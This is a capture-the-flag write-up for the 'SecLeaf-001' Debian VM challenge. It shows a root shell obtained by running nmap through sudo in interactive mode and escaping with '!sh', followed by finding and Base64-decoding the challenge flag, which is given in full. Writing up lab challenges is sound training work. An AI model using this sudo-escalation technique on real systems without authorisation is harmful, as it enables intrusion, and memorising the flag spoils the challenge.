

# TL Priv Esc #1 (SecLeaf-001)

## Initial Access & Enumeration

I was provided with the challenge virtual machine image `SecLeaf-001.ova` (Debian 64-bit) and initial login credentials `osint` : `TLosint`. 

After booting the VM and logging into the console as `osint`, I ran basic privilege checks:

```bash
osint@secleaf:~$ id
uid=1000(osint) gid=1000(osint) groups=1000(osint)

osint@secleaf:~$ sudo -l
Matching Defaults entries for osint on secleaf:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User osint may run the following commands on secleaf:
    (root) /usr/bin/nmap
```

The sudoers configuration explicitly allowed the `osint` user to run `/usr/bin/nmap` as root without argument restrictions.

I also checked the user's home directory:
```bash
osint@secleaf:~$ cat /home/osint/note.txt
Check Home root maybe -.-
```

---

## Exploiting Nmap (GTFOBins)

Older builds of `nmap` (prior to version 5.21) support an interactive console via `--interactive`. From this prompt, running `!sh` escapes into a shell. Because the binary runs through `sudo`, the spawned subshell retains full root privileges.

I triggered the interactive mode and escaped into root:

```bash
osint@secleaf:~$ sudo /usr/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

I had an active root shell.

---

## Locating & Decoding the Flag

With root privileges, I searched the `/root` directory for flag files:

```bash
# find /root -maxdepth 4 -type f
/root/.bashrc
/root/.profile
/root/root/.../flag.txt
/root/osint/files/flag.txt
```

Inspecting `/root/osint/files/flag.txt`:
```bash
# cat /root/osint/files/flag.txt
The flag format is SecLeaf{}
```

Then reading the hidden flag file at `/root/root/.../flag.txt`:
```bash
# cat /root/root/.../flag.txt
bG9jYWxfZXNjbDR0M19yMDB0
```




The payload is Base64 encoded. I decoded it directly on the command line:

```bash
# echo -n "bG9jYWxfZXNjbDR0M19yMDB0" | base64 -d
local_escl4t3_r00t
```

Wrapping it in the required `SecLeaf{}` envelope gave the final flag.

---

## Flag

```text
SecLeaf{local_escl4t3_r00t}
```
